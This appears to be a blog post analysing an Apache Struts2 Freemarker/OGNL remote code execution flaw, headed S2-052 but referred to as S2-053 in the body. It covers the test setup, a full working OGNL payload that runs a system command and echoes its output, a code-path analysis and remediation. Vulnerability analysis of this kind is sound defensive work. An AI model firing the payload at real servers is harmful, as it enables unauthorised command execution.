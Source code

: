 ```yaml
---
layout:     post
title:      "Apache Struts2 Remote Code Execution (S2-052) "
subtitle:   "Analysis of the Vulnerabilities"
date:       2017-09-15
author:     "Urahara"
header-img: "img/e208e5acad48b373c311a46087757044.jpg"
header-mask: 0.3
tags: 
    - Struts2
    - Remote Code Execution


---
```


### Versions Affected

```
Struts 2.0.1 - Struts 2.3.33, 
Struts 2.5 - Struts 2.5.10
```

### Description

> A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals
>
> When using expression literals or forcing expression in Freemarker tags (see example below) and using request values can lead to RCE attack.

```php+HTML
<@s.hidden name="redirectUri" value=redirectUri />

<@s.hidden name="redirectUri" value="${redirectUri}" />

<@s.hidden name="${redirectUri}"/>
```

根据官方表述该漏洞主要是Freemarker模板语言的一个特性，被开发人员错误利用导致因传入ognl表达式而造成RCE的风险，所以再结合官方给出的错误编码示例，很容易猜测到这个漏洞首先是一个安全编码导致的问题，而非struts2通杀漏洞，因此官方对该漏洞的风险定级为中危。

在java领域，表现层技术主要有三种：jsp、freemarker、velocity。Struts2使用FreeMarker作为其默认的模板引擎，FreeMarker负责将数据模型中的数据合并到模板中，从而生成标准输出，对于界面开发人员而言，他们只关心界面（也就是模板文件）的开发，而无需理会底层数据，而对于业务逻辑开发者，他们只需要关心负责将需要显示的数据填入数据模型即可，对于传统的jsp页面而言，FreeMarker是一个绝佳的替代方案。

### Vulnerability Environment

根据官方的漏洞表述，我们使用struts-2.5.10版本，写一个在FreeMarker中使用Struts2标签的ftl模板文件，功能比较简单获取name并输出

![freemarker-ftl](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-ftl.png)

在 Action 中，为了将name值传到以上的Freemarker 模板中，将name值绑定到相应的属性中即可， action 代码如下：

![freemarker-java](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-java.png)

这样一个漏洞环境就搭建好了，接下来就是进行漏洞测试和分析

### Vulnerability Analysis

漏洞利用很简单，提交`%{2*333}`观察返回name值，表达式被正确执行即可

![freemarker-page](http://reverse-tcp.xyz/img/struts2/s2-053-freemarker-page.png)

POC同s2-045就可以，带回显POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ipconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

我们知道在ftl模板里${···}本身就是ognl表达式，所以这个漏洞没有什么可以去分析的漏洞触发机制，不过作为struts2的ognl表达式执行漏洞学习案例还是不错的，很直接！

先看\org\apache\struts2\views\freemarker\ScopesHashModel.class，Struts2 Action get从前台获取到参数内容后，会先获得用户提交的参数名，然后从值栈（Value Stack）中找到符合参数值的内容（ognl），其中主要用到ValueStack的findValue方法

![s2-053-analysis1](http://reverse-tcp.xyz/img/struts2/s2-053-analysis1.png)

当action处理完成后，调用set方法。这里需要注意在Component类的copyParams方法，其中用到了setValue来处理，所以action的实例变量可以被OGNL访问

![s2-053-analysis2](http://reverse-tcp.xyz/img/struts2/s2-053-analysis2.png)

同样的在OgnlValueStack中的setValue再进行处理，继续跟进最后发现被OgnlUtil中的setValue来传递ognl表达式

最终ognl表达式被OgnlValueStack中的findValue所执行，因为POC不是以#开头，会把expr当做key值到contextMap中找，再次过程中ognl表达式被执行。

![s2-053-analysis3](http://reverse-tcp.xyz/img/struts2/s2-053-analysis3.png)

### Solution

首先你可以进行struts2版本升级，其中对freemarker配置中进行了更多的限制，其次本文开始就说了，这首先是一个安全编码的问题，正确的标签使用方法如下：

![solution](http://reverse-tcp.xyz/img/struts2/s2-053-solution.png)







